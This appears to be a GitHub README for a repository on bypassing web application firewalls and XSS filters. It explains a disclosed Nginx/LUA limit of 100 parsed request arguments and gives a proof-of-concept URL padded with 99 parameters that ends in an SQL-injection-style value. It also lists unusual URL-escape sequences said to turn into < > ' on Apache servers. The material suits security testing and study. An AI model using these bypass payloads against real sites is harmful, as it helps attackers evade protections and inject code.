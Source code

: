 # Bypassing-Web-Application-Firewalls-And-XSS-Filters
This repository contains some documented WAF bypass exploits and a series of python scripts for generating weird character combinations and lists for BurpSuite Pro for bypassing web application firewalls (WAF) and XSS filters.

## Nginx/LUA 100 Request Limitation Exploit
*Update October 2018*
As detiled in the recently disclosed Cloudflare vulnerability, several Nginx/LUA based WAF implementations have a limitation where only 100 requests (GET/POST requests) can be processed before the WAF is no longer able to see them.

> “Nginx is a web server that is responsible for processing web requests. It is a stable and versatile tool that allows developers to focus on the implementation of WAF through different scripts written in LUA. Most of these open source WAF’s have the same problem: they don’t take into account that the module responsible for the integration of LUA in Nginx (lua-nginx-module) doesn’t allow access to all the information of a request.”

> ngx.req.get_uri_args()
some note from https://github.com/openresty/lua-nginx-module#ngxreqget_uri_args
“Note that a maximum of 100 request arguments are parsed by default (including those with the same name) and that additional request arguments are silently discarded to guard against potential denial of service attacks.”

Proof of concept 100 request parameters for WAF bypass exploit:
/test.php?&a0=0&a1=1&a2=2&a3=3&a4=4&a5=5&a6=6&a7=7&a8=8&a9=9&a10=10&a11=11&a12=12&a13=13&a14=14&a15=15&a16=16&a17=17&a18=18&a19=19&a20=20&a21=21&a22=22&a23=23&a24=24&a25=25&a26=26&a27=27&a28=28&a29=29&a30=30&a31=31&a32=32&a33=33&a34=34&a35=35&a36=36&a37=37&a38=38&a39=39&a40=40&a41=41&a42=42&a43=43&a44=44&a45=45&a46=46&a47=47&a48=48&a49=49&a50=50&a51=51&a52=52&a53=53&a54=54&a55=55&a56=56&a57=57&a58=58&a59=59&a60=60&a61=61&a62=62&a63=63&a64=64&a65=65&a66=66&a67=67&a68=68&a69=69&a70=70&a71=71&a72=72&a73=73&a74=74&a75=75&a76=76&a77=77&a78=78&a79=79&a80=80&a81=81&a82=82&a83=83&a84=84&a85=85&a86=86&a87=87&a88=88&a89=89&a90=90&a91=91&a92=92&a93=93&a94=94&a95=95&a96=96&a97=97&a98=98&a=information_schemas


References:
https://github.com/p0pr0ck5/lua-resty-waf/issues/280
https://latesthackingnews.com/2018/10/26/cloudflare-waf-bypass-vulnerability-discovered/

## WAF Funky Characters Testing
These python scripts have been created to fuzz wierd combinations:

 * URL Escape Characters 
 * HTML Escape Characters
 * Binary Characters
 
These scripts were created during an assessment, while trying to bypass a Web Application Firewall (WAF) in order to exploit a XSS vulnerability.
Differnt webservers and browsers interpret URL and strange characters differently which could lead to the bypassing of security controls.
When I tried to send a > or < character the WAF would block the request.

The following URL escapes I have noticed are traslated to < > ' by Apache2 based web servers / WAF applications:

%(N%(n%)S%)U%)^%)s%)u%*C%*E%*c%*e%,.%.#%1N%1n%2S%2U%2^%2s%2u%3C%3E%3c%3e%5.%7#%:C%:E
%:c%:e%HN%Hn%IS%IU%I^%Is%Iu%JC%JE%Jc%Je%L.%N#%XN%Xn%YS%YU%Y^%Ys%Yu%ZC%ZE%Zc%Ze%\.%^#
%hN%hn%iS%iU%i^%is%iu%jC%jE%jc%je%l.%n#%xN%xn%yS%yU%y^%ys%yu%zC%zE%zc%ze%|.


